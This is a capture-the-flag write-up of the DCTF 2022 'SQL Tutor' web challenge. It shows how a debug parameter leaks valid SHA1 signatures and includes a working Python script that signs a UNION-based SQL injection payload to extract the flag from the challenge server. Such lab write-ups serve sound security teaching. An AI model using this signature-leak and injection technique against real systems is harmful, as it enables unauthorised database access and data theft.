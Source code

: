 # DCTF 2022 SQL Tutor writeup

## Intro

**SQL Tutor** was a fun little Web challenge, scoring 200 points.

When accessing the website, I was presented with a simple Web interface. It let's me insert some text, and pick which query I want to use from a list of predefined SQL queries.

![](sqltutor.png)

There is a simple blacklist filter, preventing usage of "dangerous" characters such as ", ', and also some strings like "SELECT", "UNION" and "ORDER BY".

![](error.png)

## Network traffic analysis

Firing up Burp and viewing the traffic, I could see there is a simple HTTP API consisting of 2 endpoints.


**`/verify_and_sign_text` - Valid input**

(Input: "a")

The client-side code sends our input encoded as base64, and asks the server to do something with it invloving SHA1.

```
POST /verify_and_sign_text HTTP/2
...

text=YQ%3D%3D&alg=sha1
```

The server responds with some basic information, a signature looking like SHA1 and a mysterious `"debug":null` field.
```
HTTP/2 200 OK
...
{"status":"ok","trimmedText":"YQ==","signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5","debug":null}
```

From the JS source, I found a commented out `debug=true` parameter:
```js
$.ajax({
  type: "POST",
  url: "/verify_and_sign_text",
  data: {
    // Backend devs said that the query should be base64 encoded
    text: btoa(contents),
    alg: "sha1",
    //debug:true
  },
})
```

Setting it and sending the request again, we get some nice, detailed output.

```json
{
   "status":"ok",
   "trimmedText":"YQ==",
   "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"YQ=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅",
         "Trimmed and checked the text ✅",
         "Created signature: sha1(secret+sanitize(text)) ✅"
      ]
   }
}
```

So, the server is trimming and hashing our text, prefixed with some secret string - the hash becomes the "signature".

**`/verify_and_sign_text` - Invalid input**

Sending blacklisted strings in the base64-encoded input results in a different response.
```json
{
   "status":"error",
   "message":"Dangerous strings:[ \" ] in text!",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"Ig=="
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅"
      ]
   }
}
```

**Ideas**

At this point, I had some ideas:
- Maybe it's possible to find a [SHA1 collision](https://shattered.io/), but that would be overkill + it would still not provide the secret required.
- The text trimming should be safe since it applies before validation and hashing
- The `sanitize()` call inside the `sha1()` did seem suspicious (maybe it's filtering some extra characters and doing decoding that will allow us to somehow bypass the original filter?)
- Finding the secret by using small inputs (it won't allow an empty input) and bruteforcing / searching for the cracked hash online
- Breaking the base64 parser
- Adding non-printable characters to the base64 payload
- Passing an array (`text[]=...`) as input
- Finding a query from the list that could allow injection without special characters

These directions turned out to yield uninteresting results. 

**/execute - Valid input**

After our text is signed, the JS code sends a POST request to `/execute` with the text and signature:
```
POST /execute HTTP/2
...
text=YQ%3D%3D&signature=96be85e65d1b2b44725580ca01ac70f534ed8be5&queryNo=0
```

Adding another `debug=true` to this request shows us what's going on.

```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a'",
   "results":[
      
   ],
   "description":"This query selects all users with the name 'a'.",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"YQ=="
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

As expected, the server verifies the hash and allows the query to proceed if the hash matches.


**/execute - Invalid input**

I tried throwing some random text at `/execute` with `debug=true` and an unmatching signature.
```
{
   "status":"error",
   "message":"Invalid text signature, this incident will be reported!",
   "debug":{
      "input":{
         "signature":"96be85e65d1b2b44725580ca01ac70f534ed8be5",
         "text":"a"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅"
      ],
      "compare":"e95d18c6c9fea0047af7fe1b3b2fe1f80b9450b9 !== 96be85e65d1b2b44725580ca01ac70f534ed8be5"
   }
}
```

Seriously..?

So, in case of mismatch it just gives you the correct hash for free.

## Solution

After a while, I've created a short script to encode and sign any input.

The remaining part was classic SQL injection with `UNION` to get the flag.

```py
import requests
import base64

def get_signature(text):
    r = requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': 'FAKEEE',
            'debug': 'true',
        }).json()
    return r['debug']['compare'].split(' !== ')[0]

def inject(text, signature):
    print(requests.post('https://sqltutor.dragonsec.si/execute',
        data={
            'text': base64.b64encode(text).decode('utf-8'),
            'signature': signature,
            'debug': 'true',
            'queryNo': '0',
        }).json())

text = None

text = b"a' union select 1,2,3,flag from flags -- a"
signature = get_signature(text)
inject(text, signature)
```

And the result:
```
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='a' union select 1,2,3,flag from flags -- a'",
   "results":[
      {
         "id":1,
         "name":"2",
         "surname":"3",
         "age":"dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}"
      }
   ],
   "description":"This query selects all users with the name 'a' union select 1,2,3,flag from flags -- a'.",
   "debug":{
      "input":{
         "signature":"664b65147e414f7f19239aeb88d3a012782bc857",
         "text":"YScgdW5pb24gc2VsZWN0IDEsMiwzLGZsYWcgZnJvbSBmbGFncyAtLSBh"
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

_Let's go!_
